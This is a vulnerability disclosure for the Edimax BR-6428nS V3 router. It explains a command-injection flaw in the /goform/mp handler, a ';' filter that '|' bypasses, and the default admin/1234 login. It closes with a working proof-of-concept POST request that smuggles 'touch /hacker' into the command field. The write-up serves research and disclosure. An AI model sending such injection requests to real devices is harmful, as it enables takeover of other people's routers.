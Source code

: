 ## Firmware Download

you can download BR-6428nS V3 firmware from [here](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v3)

![firmware download](https://github.com/countfatcode/temp/blob/main/1.png)

## analyze

The ```mp``` function in ```/bin/webs``` can receive the command parameter and execute it using ```system``` function.

![vuln](./3.jpg)

Before using the system function to execute the command, ```strchr``` will replace the ';' in the command parameter with '\0', but we can use '|' to easily bypass the check.Below is a screenshot of the exploit.

![vuln1](https://github.com/countfatcode/temp/blob/main/2.jpg)

PS You must pass basic verification before you can exploit this vulnerability.The default user/passwd is admin/1234.

![vuln2](https://github.com/countfatcode/temp/blob/main/4.png)

## POC

```python
POST /goform/mp HTTP/1.1
Host: 192.168.2.1
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.2.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.2.1/apppoe.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

command=1 %7C touch %2Fhacker %7C echo hello
```

